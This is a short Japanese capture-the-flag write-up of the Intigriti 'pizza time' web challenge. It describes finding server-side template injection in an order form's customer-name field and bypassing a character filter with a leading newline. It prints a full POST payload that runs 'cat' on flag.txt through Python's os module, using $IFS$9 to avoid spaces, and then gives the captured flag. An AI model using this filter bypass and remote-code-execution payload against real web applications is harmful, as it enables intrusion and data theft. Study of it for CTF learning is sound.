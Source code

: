 
- 注文完了画面

![pizza time 02](./images/pizzatime_02.png)

この時点では、Pythonが使われていることは分かりませんが、注文者の名前がレスポンスに反映されていることから、SSTIの可能性が高いと思いました。

ただし、`{{7*7}}`のような文字列を注文者の名前（customer_name）に入れて送ると、`Invalid characters detected!`と出力されてしまいます。  
調べた限り、記号は使えない？ようでした。

～ここまでで時間切れ～

他の人の解答を見たところ、どうやら改行（%0a）を入れることで以降は記号が入っていても無視されるようでず。  
改行ももちろん試したはずなのですが、気づかなかったのでつめが甘かったです。

`%0a{{7*7}}`で送信すると、`49`が含まれることを確認しました。

![pizza time 03](./images/pizzatime_03.png)

後は、該当するテンプレートエンジンを調べてSSTIをするだけです。

- POSTパラメータ

```http
customer_name=%0a{{request.application.__globals__.__builtins__.__import__('os').popen('cat$IFS$9/flag.txt').read()}}&pizza_name=Margherita&pizza_size=Small&topping=Mushrooms&sauce=Marinara
```

`$IFS$9`を使っているのは、サーバ側の処理で空白によって区切られることを防ぐためです。

- FLAG

```text
INTIGRITI{d1d_50m3b0dy_54y_p1zz4_71m3}
```
